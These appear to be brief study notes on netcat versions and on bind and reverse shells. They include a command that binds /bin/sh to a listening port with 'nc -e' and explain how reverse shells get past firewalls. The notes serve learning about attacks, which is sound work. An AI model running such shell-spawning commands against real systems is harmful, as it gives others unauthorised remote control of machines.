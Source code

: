 #9-11

    which nc
    file /usr/bin/nc

nc versions:
* openbsd (the one that's not dangerous and therefore not fun)
* traditional
* gnu

Opening a port on moxie:

    nc -vvl -p <portNum> -e /bin/sh

Quick Basics:
* Must be on pulic IP's
* Watch out for firewalls (they'll kill this nc ability)

Cannot open a port **below 1024** without sudo

Reverse shell makes use that firewalls allow **all** outgoing connections

The injected script to the open port **spawns it's own nc** to where you are hacking from.


